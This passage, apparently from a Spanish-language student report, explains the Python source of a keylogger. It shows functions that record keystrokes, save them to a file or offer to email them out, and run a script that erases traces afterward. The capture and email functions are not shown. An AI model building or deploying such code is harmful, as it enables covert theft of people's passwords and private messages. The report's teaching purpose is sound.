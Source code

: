 \begin{lstlisting}[language = Python, caption = funcion save\_to\_filedel archivo k-log.py]
# Funcion para guardar los datos en un archivo de texto
def save_to_file(log):
    with open("keylog.txt", "w") as f:
        f.write(log)
    print("Los datos han sido guardados en 'keylog.txt'.")
\end{lstlisting}

En este código simplemente abrimos un archivo llamado keylog.txt en el cual escribiremos todo lo que contenga log.

Ahora la función menu.

\begin{lstlisting}[language = Python, caption = funcion menu del archivo k-log.py]
# Funcion para mostrar el menu
def menu():
    print("¿Qué te gustaría hacer con los datos capturados?")
    print("1. Guardar en un archivo de texto")
    print("2. Enviar por correo electrónico")
    choice = input("Ingresa tu elección (1 o 2): ")
    return choice
\end{lstlisting}

En este código solo regresamos la opción ya sea 1 o 2. (al momento de escribir este reporte nos percatamos que tronara al no hacer chequeo de la entrada).

Por ultimo la función main.

\begin{lstlisting}[language = Python, caption = funcion main del archivo k-log.py]
# Funcion principal
def main():
    global log
    choice = menu()
    keyboard.on_press(on_key)
    
    print("Keylogger en ejecución... Presiona 'ESC' para detener.")

    keyboard.wait('esc')

    if choice == '1':
        save_to_file(log)
    elif choice == '2':
        send_email(log)
    else:
        print("Elección no válida.")
    
    try:
        subprocess.run(bash_command)
    except Exception as e:
        print("Error al ejecutar el script de limpieza.")

\end{lstlisting}

Aquí en esta función aplicamos todas las vistas anterior mente en su orden especifico y al ultimo tratamos de correr el script para borrar todo. y el script de bash contiene lo siguiente.

